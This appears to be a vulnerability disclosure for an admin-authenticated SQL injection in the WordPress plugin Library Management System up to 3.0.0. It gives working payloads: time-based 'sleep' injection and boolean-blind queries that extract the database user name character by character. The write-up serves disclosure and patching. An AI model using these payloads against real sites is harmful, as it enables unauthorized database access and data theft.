 # Library Management System <= 3.0.0 - Authenticated (Admin+) SQL Injection

### Description

[Library Management System](https://wordpress.org/plugins/library-management-system/) plugin has a parameter vulnerable to SQL Injection at `admin/class-library-management-system-admin.php`, on [line 2092](https://plugins.trac.wordpress.org/browser/library-management-system/trunk/admin/class-library-management-system-admin.php#L2092).

The parameter is `value` when you filter books by category. Since we can control variable `$filterValue` and it is being pass directly on the query, we can alter it.

It's possible there are other vulnerable queries too, not yet tested, but the process seems to be the same.

<br>

### Proof of Concept

This will return category 1:
```
module=books&filterBy=category&value=2+OR+1&action=owt_lib_handler&param=owt7_lms_data_option_filters&owt7_lms_nonce=63f97d5b29
```

This will make the database sleep:
```
module=books&filterBy=category&value=2+OR+sleep(5)&action=owt_lib_handler&param=owt7_lms_data_option_filters&owt7_lms_nonce=6802c70449
```

<br>

**Boolean Blind Payload** to dump information:

This will return true, so the first character of the username id 'd' (character for 100 in ASCII)
```
1+AND+(SELECT+ASCII(SUBSTRING((SELECT+USER()),1,1))=100)
```

Find second character (my username is 'demo')
```
1+AND+(SELECT+ASCII(SUBSTRING((SELECT+USER()),2,1))=101)
```
